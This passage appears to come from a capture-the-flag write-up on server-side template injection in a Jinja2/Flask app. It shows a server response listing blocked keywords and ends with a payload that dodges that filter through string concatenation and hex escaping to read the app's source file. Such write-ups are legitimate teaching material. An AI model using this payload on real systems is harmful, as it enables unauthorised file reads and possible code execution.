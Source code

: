 Let’s try exploiting this variable for potential injection through it.

![24](./24.png)

That worked, the server successfully evaluated the expression `1+1` and return `2` under the `__v` variable.

If you’re curious about the use of curly braces here, 

💡 In many web applications, especially those using template engines like **Jinja2** (commonly used with Flask in Python), curly braces are used to **evaluate expressions** and **render dynamic content**. Template engines allow dynamic content to be injected into HTML or JSON responses by evaluating expressions within these curly braces.
Using `Hacktricks` as a resource, 

[HackTricks/jinja2-ssti.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md)

We try out the first payload, `config`, [Add curly braces!] In these object you can find all the configured env variables and dump them.

```bash
HTTP/2 200 OK
Content-Type: application/json
Date: Thu, 19 Dec 2024 11:19:13 GMT
Server: gunicorn
Content-Length: 219

{"error":"Invalid input! The following characters are not allowed: 
config, globals, read, |join, getitem, import, popen, lipsum, request, os, 
subclasses, cat, base, builtins, init, cycler, joiner, namespace, shell, ."}
```

Well that worked. Further,

```bash
Payload = url_for['__gl'+'obals__']['__buil'+'tins__']['op'+'en']('app\\x2epy')['re'+'ad']()
```
